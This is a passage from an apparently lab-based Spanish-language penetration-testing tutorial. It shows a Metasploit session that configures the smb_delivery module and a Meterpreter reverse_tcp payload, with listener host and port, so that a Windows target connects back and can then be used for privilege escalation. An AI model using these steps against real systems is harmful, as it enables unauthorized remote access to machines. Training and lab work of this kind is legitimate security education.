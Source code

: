 ```powershell-session
VulnStatus : Not Vulnerable
```

#### Obtener un caparazón de meterpreter

Desde la salida, podemos ver varios parches faltantes. A partir de aquí, recuperemos un shell de metasploit en el sistema e intentemos aumentar los privilegios utilizando uno de los CVE identificados. Primero, necesitamos obtener un`Meterpreter`caparazón inverso. Podemos hacer esto de varias maneras, pero una manera fácil es usar el`smb_delivery`módulo.

  Servidor de Windows

```shell-session
msf6 exploit(windows/smb/smb_delivery) > search smb_delivery

Matching Modules
================
   #  Name                              Disclosure Date  Rank       Check  Description
   -  ----                              ---------------  ----       -----  -----------
   0  exploit/windows/smb/smb_delivery  2016-07-26       excellent  No     SMB Delivery
Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/smb_delivery


msf6 exploit(windows/smb/smb_delivery) > use 0

[*] Using configured payload windows/meterpreter/reverse_tcp


msf6 exploit(windows/smb/smb_delivery) > show options 

Module options (exploit/windows/smb/smb_delivery):
   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILE_NAME    test.dll         no        DLL file name
   FOLDER_NAME                   no        Folder name to share (Default none)
   SHARE                         no        Share (Default Random)
   SRVHOST      10.10.14.3       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      445              yes       The local port to listen on.
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   1   PSH


msf6 exploit(windows/smb/smb_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   DLL
   1   PSH


msf6 exploit(windows/smb/smb_delivery) > set target 0

target => 0
```